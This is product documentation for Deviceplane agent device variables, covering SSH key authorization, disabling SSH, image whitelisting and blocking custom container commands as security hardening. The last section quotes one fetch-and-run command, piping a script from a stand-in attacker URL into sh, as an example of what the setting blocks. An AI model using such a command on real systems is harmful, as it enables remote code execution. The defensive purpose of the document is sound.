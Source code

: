 
<Docs title="Device Variables">

Device variables allow you to customize various aspects of Deviceplane agent behavior. Variables are set through the filesystem meaning that interactions occur by placing files in a specific location (`/etc/deviceplane`). The agent detects these changes (without ever needing a restart) and changes behavior accordingly.

## Variables

Below is a reference list of flags available in the API. All of these flags should be placed in the `/etc/deviceplane` directory as a standalone file. For example, the `authorized-ssh-keys` file would exist as a file at `/etc/deviceplane/authorized-ssh-keys`.

### authorized-ssh-keys

The `authorized-ssh-keys` variable sets the list of allowed keys for SSH access to a device. This file follows the standard `authorized_keys` format for SSH.

Adding this variable fundamentally changes how SSH authorization works. Normally authorization for SSH occurs in the Deviceplane backend as all other API requests are. After adding this variable the agent will begin also authorizing using SSH keys.

SSH via CLI is currently the only supported method when using this variable. SSH via the UI is not yet supported when using this variable.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to SSH to any devices without also having an authorized SSH key
- If you lose access to your SSH keys you will have no way of accessing your device

### disable-ssh

The `disable-ssh` variable disables SSH access to the device. This should be an empty file; its presence or absence is all that's needed.

This variable is useful for restricting SSH access from the side of the device. For example, imagine a device with a touchscreen in use by a customer who would prefer to have SSH access to their device allowed only when they explicitly opt-in. The variable `disable-ssh` could be present on the device by default, and then the customer could opt-in to have their device accessed via some type of settings page in the running application. This settings page could create or remove `/etc/deviceplane/authorized-keys` to turn on or off SSH access.

### whitelisted-images

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `whitelisted-images` variable sets the list of images that can be used on a device. If this file is nonexistent or empty, any image will be allowed.

An image is allowed if its name is prefixed by a line in the file.

For example, the following `whitelisted-images` file will allow:

- The `redis` image, with any tag, or no tag (which defaults to latest)
- And any images from the `myorg` org (e.g. `myorg/deployimage`)

```
redis
myorg/
```

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to launch images that aren't in your `whitelisted-images` file.
- If all images that run on your device are under your org name on DockerHub (e.g. `myorg/`), then keeping this list up to date is easy!

### disable-custom-commands

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `disable-custom-commands` variable disables custom commands in the application config. Like `disable-ssh`, this should be an empty file; its presence or absence is all that's needed.

When this variable is set, the `command` and `entrypoint` keys are not allowed to be used. The agent will refuse to run services that use the keys and log an error.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to change the `entrypoint`/`command` of a container to execute arbitrary code. For example, `entrypoint: curl http://attackersurl.test | sh`, will be disallowed.

</Docs>
